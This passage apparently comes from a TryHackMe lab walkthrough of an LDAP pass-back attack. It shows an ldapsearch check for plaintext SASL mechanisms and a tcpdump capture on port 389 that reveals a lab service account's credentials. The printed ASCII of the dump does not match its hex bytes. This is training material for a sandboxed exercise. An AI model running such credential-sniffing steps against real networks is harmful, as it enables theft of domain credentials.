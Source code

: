 **LDAP search to verify supported authentication mechanisms**

```php   
[thm@thm]$ ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
dn:
supportedSASLMechanisms: PLAIN
supportedSASLMechanisms: LOGIN
```

**Capturing LDAP Credentials**  

Our rogue LDAP server has now been configured. When we click the "Test Settings" at [http://printer.za.tryhackme.com/settings.aspx](http://printer.za.tryhackme.com/settings.aspx), the authentication will occur in clear text. If you configured your rogue LDAP server correctly and it is downgrading the communication, you will receive the following error: "This distinguished name contains invalid syntax". If you receive this error, you can use a tcpdump to capture the credentials using the following command:

**TCPDump**

```php
[thm@thm]$ sudo tcpdump -SX -i breachad tcp port 389
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth1, link-type EN10MB (Ethernet), snapshot length 262144 bytes
10:41:52.979933 IP 10.10.10.201.49834 > 10.10.10.57.ldap: Flags [P.], seq 4245946075:4245946151, ack 1113052386, win 8212, length 76
	0x0000:  4500 0074 b08c 4000 8006 20e2 0a0a 0ac9  E..t..@.........
	0x0010:  0a0a 0a39 c2aa 0185 fd13 fedb 4257 d4e2  ...9........BW..
	0x0020:  5018 2014 1382 0000 3084 0000 0046 0201  P.......0....F..
	0x0030:  0263 8400 0000 3d04 000a 0100 0a01 0002  .c....=.........
	0x0040:  0100 0201 7801 0100 870b 6f62 6a65 6374  ....x.....object
	0x0050:  636c 6173 7330 8400 0000 1904 1773 7570  class0.......sup
	0x0060:  706f 7274 6564 5341 534c 4d65 6368 616e  portedSASLMechan
	0x0070:  6973 6d73                                isms
10:41:52.979938 IP 10.10.10.57.ldap > 10.10.10.201.49834: Flags [.], ack 4245946151, win 502, length 0
	0x0000:  4500 0028 247d 4000 4006 ed3d 0a0a 0a39  E..($}@.@..=...9
	0x0010:  0a0a 0ac9 0185 c2aa 4257 d4e2 fd13 ff27  ........BW.....'
	0x0020:  5010 01f6 2930 0000                      P...)0..
10:41:52.980162 IP 10.10.10.57.ldap > 10.10.10.201.49834: Flags [P.], seq 1113052386:1113052440, ack 4245946151, win 502, length 54
	0x0000:  4500 005e 247e 4000 4006 ed06 0a0a 0a39  E..^$~@.@......9
	0x0010:  0a0a 0ac9 0185 c2aa 4257 d4e2 fd13 ff27  ........BW.....'
	0x0020:  5018 01f6 2966 0000 3034 0201 0264 2f04  P...)f..04...d/.
	0x0030:  0030 2b30 2904 1773 7570 706f 7274 6564  .0+0)..supported
	0x0040:  5341 534c 4d65 6368 616e 6973 6d73 310e  SASLMechanisms1.
	0x0050:  0405 504c 4149 4e04 054c 4f47 494e       ..PLAIN..LOGIN
[....]
10:41:52.987145 IP 10.10.10.201.49835 > 10.10.10.57.ldap: Flags [.], ack 3088612909, win 8212, length 0
	0x0000:  4500 0028 b092 4000 8006 2128 0a0a 0ac9  E..(..@...!(....
	0x0010:  0a0a 0a39 c2ab 0185 8b05 d64a b818 7e2d  ...9.......J..~-
	0x0020:  5010 2014 0ae4 0000 0000 0000 0000       P.............
10:41:52.989165 IP 10.10.10.201.49835 > 10.10.10.57.ldap: Flags [P.], seq 2332415562:2332415627, ack 3088612909, win 8212, length 65
	0x0000:  4500 0069 b093 4000 8006 20e6 0a0a 0ac9  E..i..@.........
	0x0010:  0a0a 0a39 c2ab 0185 8b05 d64a b818 7e2d  ...9.......J..~-
	0x0020:  5018 2014 3afe 0000 3084 0000 003b 0201  P...:...0....;..
	0x0030:  0560 8400 0000 3202 0102 0418 7a61 2e74  .`....2.....za.t
	0x0040:  7279 6861 636b 6d65 2e63 6f6d 5c73 7663  ryhackme.com\svc
	0x0050:  4c44 4150 8013 7472 7968 6163 6b6d 656c  LDAP..password11
```

